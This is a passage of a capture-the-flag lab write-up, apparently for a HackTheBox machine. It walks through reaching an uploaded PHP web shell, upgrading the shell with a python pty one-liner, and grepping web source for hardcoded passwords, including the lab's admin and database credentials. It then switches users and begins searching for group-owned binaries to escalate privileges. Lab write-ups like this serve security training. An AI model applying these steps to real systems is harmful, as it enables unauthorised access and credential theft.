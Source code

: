     ![Screenshot 2023-01-05 at 15 28 06](https://user-images.githubusercontent.com/49148722/211022021-2ba5bbe7-a3e9-4743-a6cf-ee8536f9c589.png)

		Now I use url that I found throw gobuster http://10.129.95.191/uploads/shell.php

		Finally I get connection on my listener port. In order to have a functional shell though we can issue the following:
    
    ![Screenshot 2023-01-05 at 15 58 34](https://user-images.githubusercontent.com/49148722/211022140-80413fc7-901d-47dd-8ffe-7363b6542a9d.png)

			python3 -c 'import pty;pty.spawn("/bin/bash")'

		task 6
		What is the file that contains the password that is shared with the Robert user?

		it has restriction so we cant access some of file. website is build in php and sql so we can find some miscofiregation user /var/www/html/cdncgi/login directory. we can find source code and see what we get in there.

		cat * for real all file while grep use for  piping the output -i to ignore case sensitive words like Password.
		
		cat * | grep -i passw*

			if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
			<input type="password" name="password" placeholder="Password" />
      
      ![Screenshot 2023-01-05 at 16 09 03](https://user-images.githubusercontent.com/49148722/211022213-df93869f-7a48-477a-903b-a1e7f1dd7957.png)

		Lets find out root user in /etc/passwd directory. I found Robert

		I try to change user with "MEGACORP_4dm1n!!" but it is wrong 
		so, let's check all file if we get any important information.
		I found important information on db.php.

			<?php
				$conn = mysql_connect('localhost','robert','M3g4C0rpUs3r!','garage');
			?>

      ![Screenshot 2023-01-05 at 16 09 20](https://user-images.githubusercontent.com/49148722/211022243-7ed09613-3b69-4bc3-b3e4-c9d8a28e4b69.png)

			let's use it on Robert user.

			finally I got access of Robert here we can find the user.txt

		task 7
		What executable is run with the option "-group bug-tracker" to identify all files owned by the bug-tracker group?

			lets find -group bug-tracker by using find tag.

			find / -group bug-tracker 2>/dev/null

				I found directory for bug-tracker.
		
			/usr/bin/bugtracker

			We check what privileges and what type of file is it:
			ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
      